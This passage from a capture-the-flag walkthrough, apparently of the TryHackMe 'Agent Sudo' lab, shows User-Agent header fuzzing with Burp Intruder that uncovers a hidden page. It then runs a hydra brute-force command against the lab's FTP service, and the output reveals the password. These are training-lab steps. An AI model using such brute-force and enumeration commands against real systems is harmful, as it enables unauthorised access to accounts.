 The response mentioned that there are 25 employees, excluding R, which make it 26 total agents. With Agent R having one letter in the alphabet as his codename, I made and educated guess that the codename corresponds with the a letter in the alphabet. I decided to test this theory using `Intruder` , where I created a payload with the letters in the alphabet to see if there are any matches:
```burp suite response
GET / HTTP/1.1
Host: 10.10.31.95
User-Agent: §R§
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```
Looking through the responses, I see the following under C : 
```burp
HTTP/1.1 302 Found
Date: Sun, 14 Jan 2024 05:10:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: agent_C_attention.php
Content-Length: 218
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```
There seems to be a `php` file located in the website addressed to C, which is the name of the agent.
I decided to access the file through the following url: 
```url 
http://10.10.31.95/agent_C_attention.php
```
I got back this page: 
```firefox
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
Agent C's name is Chris!
##### *Answer : Chris*

#### *FTP password?*
From the `nmap` scan, we see that `ftp` service has open port. This version of `ftp` does not allow anonymous login, so we have to brute force our way into getting the credentials. 
Let's first access the `ftp` server to see the banner we get: 
```console
┌──(roshan㉿redhood)-[~]
└─$ ftp 10.10.31.95      
Connected to 10.10.31.95.
220 (vsFTPd 3.0.3)
Name (10.10.31.95:roshan):
```
Let's use `hydra` to crack the password: 
```console
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.31.95:21
```
We get the password as follows: 
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.31.95
#redacted
[21][ftp] host: 10.10.31.95   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
```